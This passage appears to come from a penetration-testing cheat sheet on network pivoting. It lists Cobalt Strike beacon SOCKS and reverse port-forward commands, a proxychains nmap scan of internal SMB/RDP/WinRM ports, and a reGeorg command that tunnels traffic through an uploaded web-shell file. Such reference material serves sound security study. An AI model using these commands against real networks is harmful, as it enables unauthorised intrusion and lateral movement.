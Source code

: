 ## Cobalt Strike

### SOCKS proxy

Open a port in the teamserver listening in all the interfaces that can be used to **route the traffic through the beacon**.

```bash
beacon> socks 1080
[+] started SOCKS4a server on: 1080

# Set port 1080 as proxy server in proxychains.conf
proxychains nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```

### rPort2Port

> [!WARNING]
> In this case, the **port is opened in the beacon host**, not in the Team Server and the traffic is sent to the Team Server and from there to the indicated host:port

```bash
rportfwd [bind port] [forward host] [forward port]
rportfwd stop [bind port]
```

To note:

- Beacon's reverse port forward is designed to **tunnel traffic to the Team Server, not for relaying between individual machines**.
- Traffic is **tunneled within Beacon's C2 traffic**, including P2P links.
- **Admin privileges are not required** to create reverse port forwards on high ports.

### rPort2Port local

> [!WARNING]
> In this case, the **port is opened in the beacon host**, not in the Team Server and the **traffic is sent to the Cobalt Strike client** (not to the Team Server) and from there to the indicated host:port

```bash
rportfwd_local [bind port] [forward host] [forward port]
rportfwd_local stop [bind port]
```

## reGeorg

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

You need to upload a web file tunnel: ashx|aspx|js|jsp|php|php|jsp

```bash
python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```

## Chisel
